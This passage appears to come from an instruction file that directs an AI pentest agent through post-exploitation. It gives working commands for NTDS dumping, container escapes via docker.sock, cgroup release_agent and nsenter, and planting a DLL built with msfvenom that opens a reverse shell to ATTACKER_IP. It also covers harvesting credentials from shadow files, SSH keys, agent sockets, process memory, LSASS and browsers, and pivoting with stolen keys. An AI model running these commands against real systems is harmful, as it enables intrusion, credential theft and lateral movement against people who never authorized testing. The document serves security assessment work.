| **SeRestorePrivilege** | Write any file — DLL overwrite | Overwrite service DLL, restart service for SYSTEM shell |
| **SeTakeOwnership** | Take ownership of protected files | `takeown /f C:\Windows\System32\config\SAM && icacls ... /grant USER:F` |
| **SeAssignPrimaryToken** | Create process with other token | Same Potato attacks with `-t createprocess` |

**SeBackupPrivilege — DC NTDS extraction:**
```
kali(command="nxc smb TARGET -u USER -p PASS -x 'wmic shadowcopy call create Volume=C:\\'")
kali(command="nxc smb TARGET -u USER -p PASS -x 'copy \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\Windows\\NTDS\\ntds.dit c:\\temp\\ntds.dit'")
kali(command="impacket-secretsdump -ntds ntds.dit -system system.bak LOCAL")
```

#### Phase 2D — Docker / Container Escape

**Negative finding rule:** You MUST file a finding for container capability enumeration even when no escape is possible. A negative "container hardened — no escape vector" finding documents due diligence and prevents the report reader from wondering if this was skipped. Enumerate capabilities first, then attempt escapes based on what's present:

```
kali(command="ssh user@TARGET 'capsh --print 2>/dev/null; cat /proc/self/status | grep Cap; grep -i docker /proc/1/cgroup 2>/dev/null; ls -la /var/run/docker.sock 2>/dev/null; cat /.dockerenv 2>/dev/null && echo IN_CONTAINER'")
```

Then file a finding regardless of the outcome:
- **If escape succeeded**: `severity=critical`, document the technique
- **If no escape vector found**: `severity=info`, title "Container Escape: Not Exploitable", notes = capabilities listed, docker.sock status, cgroup write status

**Detect container:**
```
kali(command="ssh user@TARGET 'cat /proc/1/cgroup 2>/dev/null | grep -i docker && ls -la /.dockerenv 2>/dev/null'")
```

**Docker socket abuse** (docker.sock accessible):
```
# Mount host root into new container
kali(command="ssh user@TARGET 'docker run -v /:/hostfs --rm alpine chroot /hostfs /bin/bash -c \"id && cat /etc/shadow\"'")
# Privileged container with host namespaces
kali(command="ssh user@TARGET 'docker run --privileged --pid=host --net=host -v /:/hostfs --rm alpine chroot /hostfs /bin/bash'")
# Deploy SSH key to host root
kali(command="ssh user@TARGET 'docker run -v /:/h --rm alpine sh -c \"echo \\\"ssh-rsa AAAA...\\\" >> /h/root/.ssh/authorized_keys\"'")
```

**cgroup escape** (notify_on_release, inside container with cgroup write):
```
kali(command="ssh user@TARGET 'mkdir -p /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x && echo 1 > /tmp/cgrp/x/notify_on_release && host_path=$(sed -n \"s/.*upperdir=\\([^,]*\\).*/\\1/p\" /etc/mtab) && echo \"$host_path/cmd\" > /tmp/cgrp/release_agent && echo \"#!/bin/sh\" > /cmd && echo \"cat /etc/shadow > $host_path/out\" >> /cmd && chmod +x /cmd && sh -c \"echo \\$\\$ > /tmp/cgrp/x/cgroup.procs\"'")
```

**CAP_SYS_ADMIN + mount** (mount host disk):
```
kali(command="ssh user@TARGET 'capsh --print 2>/dev/null; mkdir -p /mnt/host && mount /dev/sda1 /mnt/host && ls /mnt/host/root/'")
```

**nsenter escape** (privileged + host PID ns):
```
kali(command="ssh user@TARGET 'nsenter -t 1 -m -u -i -n -p -- /bin/bash -c \"id && cat /etc/shadow\"'")
```

#### Phase 2E — DLL Hijacking (Windows)

**Step 1 — Find writable PATH directories:**
```
kali(command="nxc smb TARGET -u USER -p PASS -x 'for %d in (\"%PATH:;=\", \"%\") do @icacls \"%~d\" 2>nul | findstr /i \"(F) (M) (W) everyone users authenticated\"'")
```

**Step 2 — Find DLL hijack targets:**

Enumerate services with missing DLLs dynamically using Process Monitor or by checking known targets. **These are common examples** — DLL hijack opportunities depend on installed software and OS version:

| Service | Missing DLL | Context |
|---------|------------|---------|
| IKEEXT | `wlbsctrl.dll` | SYSTEM |
| NetMan | `wlanapi.dll` | SYSTEM (no WiFi) |
| SessionEnv | `TSMSISrv.dll` | SYSTEM (RDP) |
| Spooler | Various filter DLLs | SYSTEM |

For a more complete list, search dynamically:
```
kali(command="searchsploit dll hijack windows privilege")
```

DLL search order: app dir, system32, 16-bit, Windows dir, CWD, PATH.

**Step 3 — Deploy and trigger:**
```
kali(command="msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f dll -o /tmp/evil.dll")
kali(command="nxc smb TARGET -u USER -p PASS --put-file /tmp/evil.dll 'C:\\Users\\Public\\wlbsctrl.dll'")
kali(command="nxc smb TARGET -u USER -p PASS -x 'sc stop IKEEXT && sc start IKEEXT'")
```

---

### Phase 3 — Credential Harvesting

#### Linux Credentials

```
kali(command="ssh user@TARGET 'find / \\( -name \"*.conf\" -o -name \".env\" -o -name \"*.ini\" -o -name \"config.json\" -o -name \"config.yml\" -o -name \"config.yaml\" -o -name \"*.properties\" -o -name \"web.config\" \\) 2>/dev/null | xargs grep -l -i \"password\\|secret\\|token\\|dsn\\|connectionstring\" 2>/dev/null | head -20'")
```

| Location | Command |
|----------|---------|
| Shadow file | `cat /etc/shadow` |
| SSH keys | `find / -name id_rsa -o -name id_ed25519 -o -name id_ecdsa 2>/dev/null` |
| History | `cat ~/.bash_history ~/.mysql_history 2>/dev/null \| grep -i pass` |
| DB/app configs | `find /opt /var/www /etc /srv -name "config*" -o -name ".env" 2>/dev/null \| xargs grep -li password 2>/dev/null` |
| Process env | `strings /proc/*/environ 2>/dev/null \| grep -i pass` |
| Auth/audit logs | `grep -r 'comm="su"\|comm="sudo"\|pam_unix.*authentication' /var/log/audit/ /var/log/auth.log 2>/dev/null \| head -20` |

If the current user is in the `adm` group (`id` output), auth and audit logs are readable and often contain passwords — the Linux audit daemon logs `su`/`sudo` attempts including the typed password in a hex-encoded `data=` field. Decode hex data with `echo 'HEX' | xxd -r -p`.

**Hash cracking:** `kali(command="john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/shadow-hashes.txt")`

##### SSH Key Harvesting and Reuse

```
# Step 1: Find all private keys
kali(command="ssh user@TARGET 'find / \\( -name id_rsa -o -name id_ed25519 -o -name id_ecdsa -o -name \"*.pem\" \\) 2>/dev/null | while read f; do echo \"=== $f ($(stat -c %U $f)) ===\"; head -2 \"$f\"; done'")

# Step 2: Map trust via authorized_keys
kali(command="ssh user@TARGET 'find / -name authorized_keys 2>/dev/null | while read f; do echo \"=== $f ===\"; awk \"{print NR, \\$NF}\" \"$f\"; done'")

# Step 3: Discover targets from known_hosts
kali(command="ssh user@TARGET 'find / -name known_hosts 2>/dev/null | while read f; do awk \"{print \\$1}\" \"$f\"; done | sort -u'")

# Step 4: SSH agent hijacking
kali(command="ssh user@TARGET 'find /tmp -name \"agent.*\" -type s 2>/dev/null'")
kali(command="ssh user@TARGET 'export SSH_AUTH_SOCK=/tmp/ssh-XXXXXX/agent.PID && ssh-add -l'")
kali(command="ssh user@TARGET 'export SSH_AUTH_SOCK=/tmp/ssh-XXXXXX/agent.PID && ssh -o StrictHostKeyChecking=no root@10.0.0.5 id'")

# Step 5: Test keys against discovered hosts
kali(command="for key in /tmp/stolen_keys/*; do for host in $(cat /tmp/targets.txt); do ssh -i $key -o BatchMode=yes -o ConnectTimeout=3 root@$host 'hostname && id' 2>/dev/null && echo \"SUCCESS: $key -> $host\"; done; done")
```

##### Credential Harvesting from Memory

```
# Dump env vars from all accessible processes
kali(command="ssh user@TARGET 'for pid in $(ls /proc/ | grep -E \"^[0-9]+$\"); do strings /proc/$pid/environ 2>/dev/null | grep -iE \"(PASS|SECRET|TOKEN|API)=\" && echo \"[PID:$pid $(cat /proc/$pid/cmdline 2>/dev/null | tr \"\\0\" \" \")]\"; done 2>/dev/null | head -50'")

# Extract strings from process heap (requires root)
kali(command="ssh user@TARGET 'PID=$(pgrep -f apache2 | head -1) && cat /proc/$PID/maps | grep heap | awk -F\"[- ]\" \"{printf \\\"dd if=/proc/$PID/mem bs=1 skip=\\$((16#%s)) count=\\$((16#%s - 16#%s)) 2>/dev/null\\n\\\", \\$1, \\$2, \\$1}\" | sh | strings | grep -iE \"password|secret\" | head -20'")

# SSH key recovery from ssh-agent memory
kali(command="ssh user@TARGET 'for pid in $(pgrep ssh-agent); do cat /proc/$pid/mem 2>/dev/null | strings | grep -A 30 \"BEGIN.*PRIVATE KEY\" | head -40; done'")

# Browser credentials — Chrome Login Data and Firefox logins.json
kali(command="ssh user@TARGET 'find / -path \"*/.config/google-chrome/Default/Login Data\" -o -path \"*/.mozilla/*/logins.json\" 2>/dev/null'")
```

#### Windows Credentials

| Location | Command |
|----------|---------|
| SAM/SYSTEM | `impacket-secretsdump USER:PASS@TARGET` |
| LSASS | `nxc smb TARGET -u USER -p PASS -M lsassy` |
| WiFi | `netsh wlan show profile name=X key=clear` |
| Saved creds | `cmdkey /list` |
| Registry | `reg query HKLM /s /f password \| head -50` |
| Browser | `nxc smb TARGET -u USER -p PASS -M chromium` |
| NTFS ADS | `dir /r C:\Users\ ` — check for Alternate Data Streams hiding data in files |
| DPAPI | `impacket-dpapi masterkey -file KEYFILE -sid SID -password PASS` |

---

### Phase 4 — Persistence Assessment (standard+)

#### Linux Persistence Vectors

| Vector | Check | ATT&CK |
|--------|-------|--------|
| Cron jobs | `crontab -l; ls -la /etc/cron*` | T1053.003 |
| SSH authorized_keys | `find / -name authorized_keys 2>/dev/null` | T1098.004 |
| Systemd services | `systemctl list-unit-files` | T1543.002 |
| Bash profile | `cat ~/.bashrc ~/.bash_profile /etc/profile` | T1546.004 |
| LD_PRELOAD | `cat /etc/ld.so.preload 2>/dev/null` | T1574.006 |
| Init scripts | `ls /etc/init.d/` | T1037.004 |

#### Windows Persistence Vectors

| Vector | Check | ATT&CK |
|--------|-------|--------|
| Startup folder | `dir "%APPDATA%\...\Startup"` | T1547.001 |
| Registry Run keys | `reg query HKLM\...\CurrentVersion\Run` | T1547.001 |
| Scheduled tasks | `schtasks /query /fo LIST` | T1053.005 |
| Services | `sc query state= all` | T1543.003 |
| WMI subscriptions | `Get-WMIObject -Class __EventFilter` | T1546.003 |
| DLL hijacking | Check PATH for writable dirs | T1574.001 |

---

### Phase 5 — Pivot Preparation (thorough)

```
kali(command="ssh user@TARGET 'arp -a && cat /etc/hosts && ip neigh'")
kali(command="ssh user@TARGET 'for port in 22 80 443 445 3389 5985 8080; do (echo > /dev/tcp/10.0.0.1/$port) 2>/dev/null && echo 10.0.0.1:$port open; done'")
kali(command="nxc smb 10.0.0.0/24 -u HARVESTED_USER -p HARVESTED_PASS")
kali(command="ssh -i /tmp/stolen_key -o StrictHostKeyChecking=no user@10.0.0.5 'hostname && id'")
```

Call `report(action="diagram", data={...})` with pivot map:


---

### Phase 6 — Verification & PoC

For every confirmed finding:
1. `report(action="note", data={...})` explaining the finding
2. Document exact reproduction steps
3. `http(action="save_poc", ...)` with descriptive title (e.g., `privesc-suid-python3`)
4. `report(action="finding", data={...})` — severity: Critical (root/SYSTEM), High (privesc), Medium (cred exposure). Include ATT&CK ID and raw evidence.

---

### Phase 7 — Report & Wrap-Up

1. `report(action="diagram", data={...})` — complete post-exploitation map: access, privesc path, creds, persistence, lateral movement
2. `report(action="note", data={...})` with summary:
```
Post-Exploitation Summary:
  Initial access:        [method, user, privileges]
  Privilege escalation:  [method or "not achieved"]
  Credentials harvested: [count, types]
  Persistence vectors:   [count, types]
  Lateral movement:      [reachable hosts, results]
```
3. `session(action="complete", options={...})` with summary

---

## Chaining Other Skills

| Skill | When to invoke |
|-------|----------------|
| `/lateral-movement` | Credentials and pivot opportunities identified — pass-the-hash, Kerberoasting, NTLM relay |
| `/credential-audit` | Need to crack harvested hashes or test credentials — hydra, john, hashcat |
| `/container-k8s-security` | Container escape achieved to K8s node — assess cluster from internal perspective |
| `/network-assess` | Internal network access from compromised host — segmentation testing, SNMP/NFS/SMB enum |
| `/ssl-tls-audit` | Internal TLS services discovered — audit certificates and crypto on internal services |
| `/threat-modeling` | Post-exploitation complete — STRIDE analysis of the compromised architecture |
| `/gh-export` | When user asks to file GitHub issues|

---

## Context Recovery After Compaction

When your context is compacted mid-skill:

1. **Call `session(action="recovery")`** before doing anything else — returns `tools_already_run`, `in_progress_cells`, `pending_escalations`, and `EXECUTE_NOW`
2. **Resume `in_progress` cells first** — notes record which privesc vectors were partially enumerated or attempted
3. **Follow `pending_escalations`** — escalation leads from findings (e.g., "crack hash from /etc/shadow", "test SUID binary X") that were not yet completed
4. **Skip enumeration steps in `tools_already_run`** — do not re-run linpeas/winpeas if already in the log
5. **Never mark a privesc finding from memory** — after compaction, re-run the confirming command before reporting

---

## Rules

- **`session(action="start", options={...})` is mandatory** — never run any other tool before it
- **Batch independent tools in the same response** — they execute in parallel
- When any tool returns a LIMIT message, stop immediately and call `session(action="complete", options={...})`
- **Follow the decision tree** — check sudo/SUID before kernel exploits, check token privileges before Potato selection
- **Enumerate before escalating** — understand the system before attempting privesc
- **Harvest everything** — config files, history, SSH keys, process memory, credential stores
- **Call `report(action="finding", data={...})` for every finding** — privesc paths, exposed credentials, persistence vectors
- **Use `report(action="note", data={...})` liberally** — document decisions and discoveries
- **Never fabricate findings** — only report what commands confirm
- **Mermaid syntax rules**: use `flowchart TD`, quote labels, no em-dashes, short alphanumeric node IDs
- Call `session(action="stop_kali")` at the end if `kali(command=...)` was used
